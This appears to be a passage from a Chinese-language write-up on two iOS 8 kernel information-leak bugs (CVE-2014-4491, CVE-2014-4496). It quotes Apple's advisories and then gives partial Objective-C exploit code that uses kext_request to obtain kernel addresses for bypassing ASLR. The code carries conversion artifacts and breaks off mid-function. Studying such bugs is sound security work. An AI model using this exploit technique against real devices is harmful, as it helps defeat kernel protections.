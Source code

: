 **Kernel – Fixed in iOS 8.1.3**

Available for: iPhone 4s and later, iPod touch (5th generation) and later, iPad 2 and later

Impact: Maliciously crafted or compromised iOS applications may be able to determine addresses in the kernel

Description: An information disclosure issue existed in the handling of APIs related to kernel extensions. Responses containing an OSBundleMachOHeaders key may have included kernel addresses, which may aid in bypassing address space layout randomization protection. This issue was addressed by unsliding the addresses before returning them.

CVE-ID

**CVE-2014-4491**: @PanguTeam, Stefan Esser



表17:CVE-2014-4491

#### CVE-2014-4496

**Kernel – Fixed in iOS 8.1.3**

Available for: iPhone 4s and later, iPod touch (5th generation) and later, iPad 2 and later

Impact: Maliciously crafted or compromised iOS applications may be able to determine addresses in the kernel

Description: The**mach_port_kobject**kernel interface leaked kernel addresses and heap permutation value, which may aid in bypassing address space layout randomization protection. This was addressed by disabling the mach_port_kobject interface in production configurations.

CVE-ID

**CVE-2014-4496**: TaiG Jailbreak Team



表18:CVE-2014-4496

### 利用方法

CVE-2014-4491,逻辑漏洞,不需要什么利用技巧,利用如下的代码,可以获取到内核信息:

```
- (NSData *)getKextInfoData
`{`
    vm_offset_t request = "&lt;dict&gt;&lt;key&gt;Kext Request Predicate&lt;/key&gt;&lt;string&gt;Get Loaded Kext Info&lt;/string&gt;&lt;/dict&gt;";
    mach_msg_type_number_t requestLength = (unsigned int)strlen(request) + 1;
     
    vm_offset_t response = NULL;
    mach_msg_type_number_t responseLength = 0;
     
    vm_offset_t log = NULL;
    mach_msg_type_number_t logLength = 0;
     
    kern_return_t opResult = KERN_SUCCESS;
     
    kext_request(mach_host_self(),
                 0,
                 request,
                 requestLength,
                 &amp;response,
                 &amp;responseLength,
                 &amp;log,
                 &amp;logLength,
                 &amp;opResult);
    if (opResult != KERN_SUCCESS) `{`
        printf("[-] getKextInfoString: fail to request kernel infon");
        return NULL;
```